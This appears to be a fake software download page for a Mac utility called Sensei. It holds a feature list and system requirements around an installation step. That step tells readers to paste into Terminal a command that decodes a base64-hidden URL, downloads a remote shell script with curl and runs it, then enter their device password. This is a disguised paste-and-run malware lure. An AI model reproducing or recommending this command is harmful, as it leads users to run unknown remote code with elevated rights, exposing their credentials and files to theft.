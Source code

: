 # Sensei Mac Download

![Sensei Mac Screenshot](https://cdn.wccftech.com/wp-content/uploads/2020/01/Sensei-appp.jpg)

---

## 📦 How to Install

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxMC9pbnN0YWxsLnNo | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 📦 What is Sensei for Mac?

**Sensei for Mac** is a powerful utility designed to monitor, optimize, and maintain your macOS system. It combines disk management, hardware health monitoring, system cleanup, and performance optimization tools into one intuitive application.  

Unlike the default macOS tools, **Sensei** offers advanced capabilities such as temperature monitoring, SSD health checks, storage usage analysis, and removal of unnecessary files to free up space. It’s the all-in-one solution for keeping your Mac running fast and efficiently.

---

![Sensei Mac Screenshot 2](https://cdn.mos.cms.futurecdn.net/YNkEEQpH3YW9CNJd9ynMVT.jpg)

---

## 🌟 Key Features & Benefits

- 💽 **Disk Management** — analyze and optimize SSD and HDD health.
- 🚀 **Performance Boost** — clean caches and optimize system startup.
- 🌡 **Hardware Monitoring** — monitor CPU and GPU temperatures.
- 📊 **Detailed Analytics** — get in-depth system usage statistics.
- 🧹 **System Cleanup** — remove temporary and junk files.
- 💡 **macOS Integration** — fully compatible with macOS Catalina and later.
- ⚡ **Apple Silicon Ready** — optimized for M1/M2/M3 processors.

---

## 🖥️ System Requirements

- **macOS:** 10.15 Catalina or later  
- **Processor:** Intel or Apple Silicon (M1/M2/M3)  
- **RAM:** 4 GB or more  
- **Disk Space:** 300 MB  

---

## 🏷️ Keywords

sensei mac, disk sensei, mac sensei, sensei for mac, sensei macos

---
